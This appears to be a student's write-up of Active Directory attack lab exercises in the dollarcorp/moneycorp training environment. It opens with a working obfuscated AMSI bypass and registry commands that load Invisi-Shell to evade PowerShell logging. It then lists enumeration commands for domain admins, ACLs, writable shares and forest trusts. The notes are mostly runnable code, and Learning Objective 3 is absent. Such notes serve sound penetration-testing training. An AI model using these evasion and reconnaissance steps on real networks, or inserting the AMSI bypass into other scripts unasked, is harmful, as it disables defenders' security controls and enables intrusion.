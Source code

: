 ### SUMMARY 
- [Learning Objective 1](#Learning-Objective-1)
- [Learning Objective 2](#Learning-Objective-2)
- [Learning Objective 3](#Learning-Objective-3)
- [Learning Objective 4](#Learning-Objective-4)

### AMSI bypass
```
S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + 
('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GetvarI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( 
"{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f 
'.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 
'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( 
( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 
'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}"
-f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Start a PowerShell session using Invisi-Shell to avoid enhanced logging
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```
C:\AD\Tools>set COR_ENABLE_PROFILING=1
C:\AD\Tools>set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /f
The operation completed successfully.
C:\AD\Tools>REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-
b283c03916db}\InprocServer32" /ve /t REG_SZ /d 
"C:\AD\Tools\InviShell\InShellProf.dll" /f
The operation completed successfully.
C:\AD\Tools>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

### Load PowerView
```
. C:\AD\Tools\PowerView.ps1
```

### Learning Objective 1
#### Enumerate following for the dollarcorp domain:
* Users
* Computers
* Domain Administrators
* Enterprise Administrators
* Use BloodHound to identify the shortest path to Domain Admins in the dollarcorp domain.
* Find a file share where studentx has Write permissions.

### PowerView
**List informations about all users** 
```
Get-DomainUser
```

**List a specific property of all the users**
```
Get-DomainUser | select -ExpandProperty samaccountname
```

**Enumerate member computers**
```
Get-DomainComputer | select -ExpandProperty dnshostname
```

**See details of the Domain Admins group**
```
Get-DomainGroup -Identity "Domain Admins"
```

**Enumerate members of the Domain Admins group**
```
Get-DomainGroupMember -Identity "Domain Admins"
```

**Enumerate members of the Enterprise Admins group**
```
Get-DomainGroupMember -Identity "Enterprise Admins"
```

**Query the root domain as Enterprise Admins group is present only in the root of a forest**
```
Get-DomainGroupMember -Identity "Enterprise Admins" -Domain moneycorp.local
```
### ADModule

**Import ADModule**
```
Import-Module C:\AD\Tools\ADModulemaster\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModulemaster\ActiveDirectory\ActiveDirectory.psd1
```

**Enumerate All users***
```
Get-ADUser -Filter *
```

**List specific properties**
```
Get-ADUser -Filter * -Properties *| select Samaccountname,Description
```

**List All Computers**
```
Get-ADComputer -Filter *
```

**Enumerate Domain Administrators**
```
Get-ADGroupMember -Identity 'Domain Admins'
```

**Enumerate the Enterprise Administrators**
```
Get-ADGroupMember -Identity 'Enterprise Admins' -Server moneycorp.local
```

### BloodHound ingestores
```
C:\AD\Tools\BloodHound-master\BloodHoundmaster\Collectors\SharpHound.exe --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets --excludedcs
```

### PowerHuntShares
```
Import-Module C:\AD\Tools\PowerHuntShares.psm1
Invoke-HuntSMBShares -NoPing -OutputDirectory C:\AD\Tools\ -HostList C:\AD\Tools\servers.txt

[*][12/24/2024 04:02] - All files written to C:\AD\Tools\\SmbShareHunt12242024040138
```

### Learning Objective 2
#### Enumerate following for the dollarcorp domain:
* ACL for the Domain Admins group
* ACLs where studentx has interesting permissions
* Analyze the permissions for studentx in BloodHound UI

**Enumerate ACLs for the Domain Admins Group**
```
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
```
```
AceQualifier : AccessAllowed
ObjectDN : CN=Domain 
Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
ActiveDirectoryRights : ReadProperty
ObjectAceType : User-Account-Restrictions
ObjectSID : S-1-5-21-719815819-3726368948-3917688648-512
InheritanceFlags : None
BinaryLength : 60
AceType : AccessAllowedObject
ObjectAceFlags : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback : False
PropagationFlags : None
SecurityIdentifier : S-1-5-32-554
AccessMask : 16
AuditFlags : None
IsInherited : False
AceFlags : None
InheritedObjectAceType : inetOrgPerson
OpaqueLength : 0
```

**check for modify rights/permissions for the studentx**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentx"} 
```

**Check permissions on RDPUsers group**
```
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```



### Learning Objective 4
**Enumerate all domains in the moneycorp.local forest** 
* Map the trusts of the dollarcorp.moneycorp.local domain.
* Map External trusts in moneycorp.local forest. 
* Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?

### PowerView

**Enumerate all domains in the current forest**
```
Get-ForestDomain -Verbose
```

**Map all the trusts of the dollarcorp domain**
```
Get-DomainTrust
```

**List only the external trusts**
```
Get-ForestDomain | %{Get-DomainTrust -Domain $_.Name} | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Identify external trusts of the dollarcorp domain**
```
Get-DomainTrust | ?{$_.TrustAttributes -eq "FILTER_SIDS"}
```

**Since the above is a Bi-Directional trust, we can extract information from the eurocorp.local forest**
```
Get-ForestDomain -Forest eurocorp.local | %{Get-DomainTrust -Domain $_.Name}
```


## Using Active Directory module
```
(Get-ADForest).Domains

Get-ADTrust -Filter *

Get-ADForest | %{Get-ADTrust -Filter *}

(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}

Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)'

Get-ADTrust -Filter * -Server eurocorp.local
```

